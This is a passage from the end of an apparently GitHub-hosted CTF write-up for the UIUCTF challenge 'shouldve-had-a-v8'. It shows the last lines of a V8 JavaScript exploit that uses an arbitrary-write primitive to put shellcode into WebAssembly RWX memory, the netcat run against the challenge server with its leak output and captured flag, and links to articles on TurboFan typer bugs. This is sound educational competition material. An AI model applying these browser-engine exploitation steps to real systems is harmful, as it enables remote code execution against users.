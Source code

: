 ```js
  arb_write(shellcode_addr + i*8n, BigInt(shellcode[i]), bigEndian);
}

print("[+] Printing flag...");
wasmInstance.exports.main();

// END
```
When we run this, 
```bash
$ cat exploit.js | nc shouldve-had-a-v8.chal.uiuc.tf 1337
== proof-of-work: disabled ==
[+] Heap leak --> *0x821d989 - 5n + 0x18n: 0x560325fc3c50
[+] RWX addrss: 0x17860db5d000
[+] Writing shellcode...
[+] Printing flag...
uiuctf{v8_go_brrrr_e72df103}
```
And we got the flag :)

## Resources
[In-the-Wild Series: Chrome Infinity Bug](https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-infinity-bug.html)

[Circumventing Chrome's hardening of typer bugs](https://doar-e.github.io/blog/2019/05/09/circumventing-chromes-hardening-of-typer-bugs)

[Introduction to TurboFan](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan)
